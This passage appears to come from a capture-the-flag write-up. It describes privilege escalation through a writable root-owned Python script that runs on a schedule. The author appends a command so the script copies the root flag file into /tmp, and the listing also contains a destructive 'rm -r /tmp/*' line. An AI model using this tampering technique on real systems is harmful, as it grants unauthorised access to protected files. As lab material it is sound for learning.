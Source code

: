 A file owned by root we can write to! I echod a line into it for printing the root flag

```python
cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

os.system('cat /root/root.txt > /tmp/root.txt')
```

After waiting a minute or two `/tmp/root.txt` was created with the flag in it! pspy sure is powerful

